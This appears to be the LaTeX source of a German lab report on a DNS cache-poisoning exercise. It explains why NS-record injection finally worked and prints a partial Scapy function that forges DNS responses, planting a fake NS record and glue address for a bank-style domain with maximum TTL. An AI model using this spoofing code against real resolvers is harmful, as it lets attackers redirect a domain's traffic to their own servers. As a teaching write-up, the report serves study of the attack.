 \documentclass[10pt,a4paper]{article}
\begin{document}
Nach mehreren weiteren Versuchen war das \glqq injecten\grqq\ eines NS-Records letzendlich möglich. Der Grund dafür lag in mehreren kleineren Fehlern.
\begin{itemize}
	\item[1.] Bei unseren vorherigen Antworten, haben wir keine vollständige Antwort gesendet, sondern lediglich welcher NS-Server für die Domain zuständig ist.
	\item[2.] Die Flag für \glqq recursion desired\grqq\ (rd) wurde auf den Wert 1 gesetzt um die Anfrage zu spiegeln. Da im Request bereits eine rekursive Auflösung der IP angefragt wurde, musste dieses Verhalten ebenfalls vom Angreifer gespiegelt werden.
\end{itemize}

\section{Verbesserungen im Code}
Durch die aufgezählten Veränderungen, ergab sich auch ein leicht anderer Source-Code für die die Funktion \emph{forged\_ns\_response()}. Die geänderten Codezeilen werden in folgendem Listig aufgezählt. Aufgrund der Vergleichbarkeit werden die unveränderten Codezeilen nicht dargestellt.
\begin{center}
\begin{lstlisting}
def forged_ns_response(id, target_domain, known_ns_ip):
    response = Ether() / IP(src=known_ns_ip, dst=victim_dns_ip, flags=2) / UDP(

        ...
        
        rd=1,  # Mirror request flag

        ...

        # DNS Question Record
        qd=DNSQR(qname=target_domain, qtype='A', qclass='IN'),
        # DNS Resource Record
        an=DNSRR(rrname=target_domain, type='A', rdata=attacker_dns_ip, ttl=MAX_TTL),
        ns=DNSRR(rrname=victim_base_domain, type='NS', rdata="forged-ns.bank.com",
        	ttl=MAX_TTL),
        ar=DNSRR(rrname="forged-ns.bank.com", type='A', rdata=attacker_dns_ip,
        	ttl=MAX_TTL)
    )
    
    return response
\end{lstlisting}
\end{center}
Durch die gezeigten Änderungen waren wir letztendlich in der Lage einen gefälschten NS-Record in den Cache des Victim-DNS zu schleusen und somit alle Subdomains unter unsere Kontrolle zu bringen wie auch im folgenden Bild zu sehen ist.
\begin{figure}
	\centering
	\texttt{[image: successful\_attack.jpeg]} 
\end{figure}
\end{document}
